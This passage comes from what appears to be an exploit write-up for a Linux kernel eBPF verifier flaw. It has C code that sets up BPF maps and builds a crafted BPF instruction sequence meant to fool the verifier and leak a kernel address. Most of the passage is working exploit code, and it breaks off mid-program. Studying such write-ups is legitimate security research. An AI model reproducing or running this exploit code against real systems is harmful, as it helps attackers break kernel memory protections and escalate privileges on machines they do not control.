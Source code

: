 ## Exploit Breakdown

First, we create two maps. The `ARRAY` map will be used to passing information
between userspace and the BPF program. The `RINGBUF` map will be used to give
a register the exploitable pointer type.

```c
int create_bpf_maps(context_t *ctx)
{
    int ret = 0;

    ret = bpf_create_map(BPF_MAP_TYPE_ARRAY, sizeof(u32), PAGE_SIZE, 1);
    if (ret < 0) {
        WARNF("Failed to create comm map: %d (%s)", ret, strerror(-ret));
        return ret;
    }
    ctx->comm_fd = ret;

    if ((ret = bpf_create_map(BPF_MAP_TYPE_RINGBUF, 0, 0, PAGE_SIZE)) < 0) {
        WARNF("Could not create ringbuf map: %d (%s)", ret, strerror(-ret));
        return ret;
    }
    ctx->ringbuf_fd = ret;

    return 0;
}
```

Now, we load and run a specially crafted BPF program which will first,
save the kernelspace address of the `ARRAY` map address to the BPF stack,
and then leverage the pointer oversight from before to nullify the last byte of
that address. The verifier will think we're reading from the start of the
array, but we're really reading a few bytes lower, which should (hopefully) give
us a kernel address.

```c
int do_leak(context_t *ctx)
{
    int ret = -1;
    struct bpf_insn insn[] = {
        // r9 = r1
        BPF_MOV64_REG(BPF_REG_9, BPF_REG_1),

        // r0 = bpf_lookup_elem(ctx->comm_fd, 0)
        BPF_LD_MAP_FD(BPF_REG_1, ctx->comm_fd),
        BPF_ST_MEM(BPF_DW, BPF_REG_10, -8, 0),
        BPF_MOV64_REG(BPF_REG_2, BPF_REG_10),
        BPF_ALU64_IMM(BPF_ADD, BPF_REG_2, -4),
        BPF_RAW_INSN(BPF_JMP | BPF_CALL, 0, 0, 0, BPF_FUNC_map_lookup_elem),

        // if (r0 == NULL) exit(1)
        BPF_JMP_IMM(BPF_JNE, BPF_REG_0, 0, 2),
        BPF_MOV64_IMM(BPF_REG_0, 1),
        BPF_EXIT_INSN(),

        // r8 = r0
        BPF_MOV64_REG(BPF_REG_8, BPF_REG_0),

        // r0 = bpf_ringbuf_reserve(ctx->ringbuf_fd, PAGE_SIZE, 0)
        BPF_LD_MAP_FD(BPF_REG_1, ctx->ringbuf_fd),
        BPF_MOV64_IMM(BPF_REG_2, PAGE_SIZE),
        BPF_MOV64_IMM(BPF_REG_3, 0x00),
        BPF_RAW_INSN(BPF_JMP | BPF_CALL, 0, 0, 0, BPF_FUNC_ringbuf_reserve),

        // this is where the verifier loses track of r1
```